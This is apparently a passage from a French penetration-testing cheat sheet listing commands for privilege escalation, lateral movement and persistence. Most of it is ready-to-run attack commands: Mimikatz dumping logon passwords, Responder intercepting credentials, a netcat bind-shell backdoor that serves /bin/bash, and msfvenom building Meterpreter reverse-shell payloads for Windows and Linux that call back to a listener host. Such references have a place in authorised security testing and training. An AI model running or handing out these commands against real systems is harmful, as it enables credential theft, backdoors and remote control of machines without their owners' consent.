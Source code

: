 ### Élévation de privilèges
**Linux Exploit Suggester** :
```bash
./linux-exploit-suggester.sh
```

**Windows Exploit Suggester** :
```cmd
python windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo systeminfo.txt
```

### Mouvement latéral
**Mimikatz** : Extraction de credentials
```cmd
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

**BloodHound** : Analyse d'Active Directory
```bash
bloodhound-python -u username -p password -ns 192.168.1.10 -d domain.com -c all
```

**Responder** : Interception de credentials
```bash
responder -I eth0 -w -r -d
```

### Persistence
**Netcat** : Backdoor simple
```bash
# Serveur
nc -nlvp 4444 -e /bin/bash

# Client
nc 192.168.1.100 4444
```

**Msfvenom** : Génération de payloads
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf
```

## 6. Rapport et Documentation

### Capture d'écran
**Screenshot tools** :
```bash
scrot -s screenshot.png  # Linux
import screenshot.png    # ImageMagick
```
